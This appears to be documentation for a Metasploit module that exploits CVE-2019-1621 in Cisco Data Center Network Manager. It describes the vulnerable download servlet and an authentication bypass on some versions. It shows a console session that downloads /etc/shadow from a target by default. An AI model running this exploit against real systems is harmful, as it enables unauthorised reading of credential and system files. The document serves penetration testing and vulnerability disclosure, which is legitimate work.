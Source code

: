 ## Vulnerable Application

Cisco Data Center Network Manager exposes a servlet to download files on /fm/downloadServlet.
An authenticated user can abuse this servlet to download arbitrary files as root by specifying
the full path of the file (aka CVE-2019-1621).

This module was tested on the DCNM Linux virtual appliance 10.4(2), 11.0(1) and 11.1(1), and should
work on a few versions below 10.4(2). Only version 11.0(1) requires authentication to exploit
(see References to understand why), on the other versions it abuses CVE-2019-1619 to bypass authentication.

## Scenarios

Setup RHOST, pick the file to download (FILENAME, default is /etc/shadow) and enjoy!

```
msf5 exploit(multi/http/cisco_dcnm_upload_2019) > use auxiliary/admin/cisco/cisco_dcnm_download

msf5 auxiliary(admin/cisco/cisco_dcnm_download) > set rhost 10.75.1.40
rhost => 10.75.1.40
msf5 auxiliary(admin/cisco/cisco_dcnm_download) > run

[+] 10.75.1.40:443 - Detected DCNM 10.4(2)
[*] 10.75.1.40:443 - No authentication required, ready to exploit!
[+] 10.75.1.40:443 - Got sysTime value 1567081446000
[+] 10.75.1.40:443 - Successfully authenticated our JSESSIONID cookie
[+] File saved in: /home/john/.msf4/loot/20190829122407_default_10.75.1.40_ciscoDCNM.http_855907.bin
[*] Auxiliary module execution completed
```
